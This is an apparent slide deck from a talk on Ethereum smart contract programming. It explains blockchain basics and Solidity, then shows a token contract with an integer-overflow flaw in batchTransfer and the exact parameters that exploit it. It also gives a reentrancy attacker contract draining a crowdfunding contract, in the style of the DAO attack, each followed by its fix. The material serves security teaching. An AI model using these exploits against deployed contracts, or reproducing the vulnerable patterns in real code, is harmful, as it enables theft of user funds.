




class: center, middle

# Smart Contract Programming on Ethereum

### Jason Xu @ Splunk

---

class: center, middle
# What is Smart Contract ？

---

# Traditional Contract
* Sets of agreed-upon terms which are enforceable by .blue.bold[third party institutions]  
	* Third party may be a banking institution, a law enforcement company, a government establishment, or some other intermediary

* Described in a .blue.bold[natural, human language]

---

# .red[Never] Trust Third Party!
* Businesses are dependant on intermediaries, which puts customers at risk. 

* Central systems can’t guarantee payments and implementation of contracts. 


---

# Smart Contract
 * A piece of .blue.bold[program] that stores rules for negotiating the terms of an agreement, .blue.bold[automatically] verifies fulfillment, and then executes the agreed terms.


---

# A Program

* 
```python
if A_has_more_votes_than_B():
	send(A, 1000)
else:
	send(B, 1000)
```
* Accuracy

* Efficiency

* Self-executed

---

# Trust ?

* .blue.bold[Decentralization!]

* **Blockchains** are secure by design and exemplify a distributed computing system with high Byzantine fault tolerance. Decentralized consensus has therefore been achieved with a blockchain.
	* This makes blockchains potentially suitable for the recording of events
	* **Blockchain 1.0**: Bitcoin

	.center[]

---

# Decentralization

* Store and replicate smart contracts on the decentralized ledger and supervised by the network of computers that run the blockchain
	* .blue[remove the need for intermediaries]

* Immutable

* Secure

* Public & Transparent

???

distribution makes it impossible for an attacker to force control to release funds

---

# Ethereum

* Proposed in late 2013 by .blue.bold[Vitalik Buterin] at age 19

* Blockchain 2.0


.center[]

---

class: center, middle
# What is Ethereum ?

---

# Ethereum

* A cryptocurrency (ETH)


.center[]

* A open-source, public, .blue.bold[blockchain-based] distributed computing platform and operating system featuring .blue.bold[smart contract functionality]

---

# Ethereum Virtual Machine (EVM)

* .blue[A worldwide computer] 
	* Composed of lots of smaller computers

	* All transactions are local on each node of the network, and executed in relative synchrony

.center[]


---
# Ethereum .blue[Virtual Machine]

* Run arbitrary computer programs written in the Solidity language
	* The EVM has its own language, the EVM bytecode, to which your smart contracts compile

	* Solidity, which is a high-level language, is compiled into bytecode and uploaded onto the Ethereum blockchain

.center[]

---

# .blue[Pay] GAS when executing smart contracts

* A unit of work used to measure how computationally expensive an Ethereum operation will be. 

* Gas costs are paid with small amounts of ether.
	* Gas price (User define) * Gas Used

.center[]

???

* A prepaid reward for the miners that execute code and secure the network, even if the execution fails for some reason.

* It works around the halting problem and ensures that execution can’t go on longer than the time it prepaid for

---

# Account

* **Externally owned accounts**
	* has an ether balance
	* can send transactions (ether transfer or trigger contract code),
	* is controlled by private keys,
	* has no associated code.

* **Contract accounts**
    * has an ether balance
    * has associated code
    * code execution is triggered by transactions or messages (calls) received from other contracts.

---
# Smart Contract Applications

* Initial Coin Offering (ICO)
	* Smart contracts that collects cryptocurrency from contributors and distributes newly created tokens to the ICO’s contributors. 
	.left[]
* Decentralized Applications (DApps)
	* DApp = frontend + contracts
		* [CryptoKitties](https://www.cryptokitties.co/)
		.left[]

		
???
https://dappradar.com/

---

class: center, middle
# How to do programming?

---

# How to do an ICO in less than 20 minutes?

* Testnet (E.g., ropsten)

* [REMIX](https://remix.ethereum.org/) + [METAMASK](https://metamask.io/) + [MYETHERWALLET](https://www.myetherwallet.com/#contracts)

* Application Binary Interface (ABI)
	* How you call functions in a contract and get data back

---

```javascript
contract SplunkToken{
    string public name = "SplunkChain";
    string public symbol = "SPL";
    string public version = '1.0.0';
    uint8 public decimals = 2;
    uint256 public totalSupply;
    mapping(address => uint256) balances;

    function SplunkToken() {
        totalSupply = 100 * (10**(uint256(decimals)));
        balances[msg.sender] = totalSupply;    // Give the creator all initial tokens
    }
    
    function balanceOf(address _owner) public constant returns (uint256 balance) {
        return balances[_owner];
    }
    
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(_to != address(0));
        require(_value > 0 && _value <= balances[msg.sender]);
        balances[msg.sender] = balances[msg.sender] - _value;
        balances[_to] = balances[_to] + _value;
        return true;
    }
    
    function batchTransfer(address[] _receivers, uint256 _value) public returns (bool) {
        uint cnt = _receivers.length;
        uint256 amount = uint256(cnt) * _value;
        require(cnt > 0 && cnt <= 20);
        require(_value > 0 && balances[msg.sender] >= amount);

        balances[msg.sender] = balances[msg.sender] - amount;
        for (uint i = 0; i < cnt; i++) {
            balances[_receivers[i]] = balances[_receivers[i]] + _value;
        }
        return true;
   }
}
```

---

background-image: url(demo.png)

---

# Can you trust code ? 
.center[]

---

# Overflow Attack

* Call `batchTransfer` with the following params
	* receivers:
		* "0x8C59b65F1839207261A356d89965561493c43d22" 
		* "0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81"
	* value: 2^255
		* (0x80....0) 63 zeros.

???
["0x8C59b65F1839207261A356d89965561493c43d22","0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81"]
0x8C59b65F1839207261A356d89965561493c43d22,0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81
0x8000000000000000000000000000000000000000000000000000000000000000


https://etherscan.io/address/0xa0872ee815b8dd0f6937386fd77134720d953581#code
https://etherscan.io/address/0xc5d105e63711398af9bbff092d4b6769c82f793d#code

---

# Fix Overflow

* Use [SafeMath](https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol)
```javascript
function batchTransfer(address[] _receivers, uint256 _value) public returns (bool) {
        uint cnt = _receivers.length;
        uint256 amount = uint256(cnt).mul(_value);
        require(cnt > 0 && cnt <= 20);
        require(_value > 0 && balances[msg.sender] >= amount);
        balances[msg.sender] = balances[msg.sender].sub(amount);
        for (uint i = 0; i < cnt; i++) {
            balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        }
        return true;
   }
```
---

class: center, middle
# What is the most famous attack ？

---

# The DAO Attack

* "The DAO" 
	* is the name of a particular DAO, programmed by the team behind German startup Slock.it

	* was the largest crowdfunding in history, having raised over $150m 

* The Attack
	* gained control of 3.6 million Ether, around a third of the 11.5 million Ether that had been committed to The DAO

* The Hard-Fork
	* ETH 
	* ETC (Ethereum Classic)

---

# Some Basic Knowledge

* Call function
	* Interface with contracts that do not adhere to the ABI 
```javascript
	targetAddress = "0x72ba7d8e73fe8eb666ea66babc8116a41bfb10e2"
	targetAddress.call.value(1 ether)(bytes4(sha3("withdraw()")))
```
* Fallback Function
	* An unnamed function with no arguments and return nothing. 

	* It is executed whenever the contract receives plain Ether (without data). 
		* Additionally, in order to receive Ether, the fallback function must be marked payable
```javascript
	function() public payable{
        do things...
    }
```

	* It is executed on a call to the contract if none of the other functions match the given function identifier

---

# A Simple Crowdfunding Contract

```javascript
contract CrowdFunding{
    mapping(address => uint256) balances;
    using SafeMath for uint256;
    function balanceOf(address _owner) public constant returns (uint256 balance) {
        return balances[_owner];
    }
    
    function deposit() public payable {
        balances[msg.sender] = balances[msg.sender].add(msg.value);
    }
   
    function withdraw() public {
        uint amountToWithdraw = balances[msg.sender];
        require(amountToWithdraw > 0);
        if (msg.sender.call.value(amountToWithdraw)() == false) {
            revert();
        }
        balances[msg.sender] = 0;
    }
}
```

---

# Re-entry Attack

```javascript
contract CrowdFundingAttacker{
    address public targetAddress;
    uint8 i = 0;
    
    function CrowdFundingAttacker(address _targetAddress) public{
       targetAddress=_targetAddress;
    }
    
    function deposit() public payable returns (bool){
        return targetAddress.call.value(msg.value)(bytes4(sha3("deposit()")));
    }
    
    function() public payable{
        while(i < 10){
            i++;
            if(targetAddress.call(bytes4(sha3("withdraw()"))) == false) {
                revert();
            }
          
        }
    }
    
    function withdraw() public returns (bool){
        if( targetAddress.call(bytes4(sha3("withdraw()"))) == false ) {
             revert();
        }
        return true;
   } 
   
}
```

???
attacker: https://ropsten.etherscan.io/address/0xf45960b6a4f97b782698c4a71057bb40fc806307
https://ropsten.etherscan.io/address/0xae88c088c69b6e1e5bf3d13fdec28ff6644c7792

---

# Fix: Get Your Ordering Correct

* Reset before the `'call'` is called
```javascript
function withdraw() public {
        uint amountToWithdraw = balances[msg.sender];
        require(amountToWithdraw > 0);
        balances[msg.sender] = 0;
        if (msg.sender.call.value(amountToWithdraw)() == false) {
            revert();
        }       
    }
```

---

# Advanced Development Reference

* [Truffle Framework](http://truffleframework.com/)
	* The most popular development framework for Ethereum.
* [Ethereum Github](https://github.com/ethereum/)
	* web3.js
	* go-ethereum
	* ...

## To be continued...